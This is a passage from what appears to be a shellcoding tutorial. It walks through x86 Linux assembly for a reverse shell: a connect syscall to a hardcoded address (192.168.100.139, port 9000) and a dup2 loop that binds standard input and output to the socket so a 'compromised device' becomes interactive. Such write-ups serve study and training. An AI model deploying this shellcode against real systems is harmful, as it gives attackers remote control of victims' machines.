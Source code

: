 ```term
connect:

      push word 362           ; Pushes word 362 (connect) into the stack
      pop ax                  ; Pops such word into ax so there are no nulls.
      mov ebx, esi            ; Copies the value from ESI to EBX, granting EBX the sockfd value from the socket syscall.
      push edx                ; Pushes 0.
      push dword 0x8b64a8c0   ; Pushes 192.168.100.139 in hex as a DWORD.
      push word 0x2823        ; Pushes 9000 in hex as a WORD.
      push word 0x02          ; Pushes AF_INET into the stack.
      mov ecx, esp            ; Copies the value of ESP into ECX.
      mov dl, 30              ; The value 30 is inserted into DL. Anything above 16 can be used.
      int 0x80                ; Call to kernel.
```

##### Dup2

###### Duplicate a file descriptor

Once again, we encounter ourselves with our buddy Dup2. This syscall will make our communication with the compromised device interactive by duplicating the file descriptors 
STDIN (0), STDOUT (1), and STDERR (2) into our connection. Furthermore, as this requires that dup2 is iterated 3 times, a loop that is executed in such on three occasions will be implemented that performs such task as long as the zero flag (ZF) is not set. 

###### Syscall value:
```term
root@whitecr0wz:~# cat /usr/include/x86_64-linux-gnu/asm/unistd_32.h | grep dup2
#define __NR_dup2 63
root@whitecr0wz:~#
```

###### manpage arguments: ```int dup2(int oldfd, int newfd);```

```term
      xor ecx, ecx            ; Zeroes out ECX.
      mov cl, 0x3             ; Starts counter for dup2.

dup2:

      xor eax, eax            ; Zeroes out EAX.

      push word 63            ; Pushes word 63 (dup2) into the stack.
      pop ax                  ; Pops such word into ax so there are no nulls.
      mov ebx, esi            ; Copies the value from ESI to EBX, granting EBX the sockfd value from the socket syscall.
      dec cl                  ; Decrements cl in order to set the zero flag (ZF)
      int 0x80                ; Call to kernel.

      jnz dup2                ; Jump if the zero flag (ZF) is not set, this will continue the loop 3 times.
```
